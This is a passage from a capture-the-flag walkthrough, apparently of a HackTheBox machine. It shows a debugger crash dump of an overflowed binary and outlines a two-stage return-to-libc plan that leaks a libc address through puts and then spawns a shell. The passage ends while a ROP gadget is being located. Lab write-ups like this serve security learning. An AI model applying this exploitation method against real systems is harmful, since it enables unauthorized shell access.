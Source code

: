     [-------------------------------------code-------------------------------------]
       0x40160d <auth+250>: call   0x401050 <puts@plt>
       0x401612 <auth+255>: mov    eax,0x0
       0x401617 <auth+260>: leave  
    => 0x401618 <auth+261>: ret    
       0x401619 <main>:     push   rbp
       0x40161a <main+1>:   mov    rbp,rsp
       0x40161d <main+4>:   sub    rsp,0x10
       0x401621 <main+8>:   mov    eax,0x0
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffdf68 ("BBBBBBBB")
    0008| 0x7fffffffdf70 --> 0x7fffffffe000 --> 0x0
    0016| 0x7fffffffdf78 --> 0x0
    0024| 0x7fffffffdf80 --> 0x401740 (<__libc_csu_init>:   push   r15)
    0032| 0x7fffffffdf88 --> 0x7ffff7dff09b (<__libc_start_main+235>:       mov    edi,eax)
    0040| 0x7fffffffdf90 --> 0x0
    0048| 0x7fffffffdf98 --> 0x7fffffffe068 --> 0x7fffffffe381 ("/media/sf_CTFs/hackthebox/ellingson-10.10.10.139/garbage")                                                                                                                     
    0056| 0x7fffffffdfa0 --> 0x100040000
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x0000000000401618 in auth ()



I can see 8 `B`s waiting to be moved into RIP.

### Strategy

I'm going to do this in two stages. At the start, I only know the
addresses of the functions in the PLT. So I will use one of those,
`puts`, to leak the address of one of the functions from the GOT. Then,
I can use that to find the libc base address in the current program. On
returning from that `puts`, I'll have it return to the main program,
which I'll overflow again. This time, knowing the libc address space, I
can do a normal return to libc attack. I'll construct a payload to run a
shell.

If you're not comfortable with PLT and GOT, you should check out [this
video from
LiveOverflow](https://www.youtube.com/watch?v=kUk5pw4w0h4&vl=en).

### Collect Addresses

For stage one, I'm going to call puts to leak the address. I'll need the
puts PLT address to call, a `pop rdi` gadget to load something into RDI
to `put`, and the `put` GOT address (the value that I'm leaking).

#### pop rdi

To get the `pop rdi` gadget, I'll use
[rop-tool](https://github.com/t00sh/rop-tool).
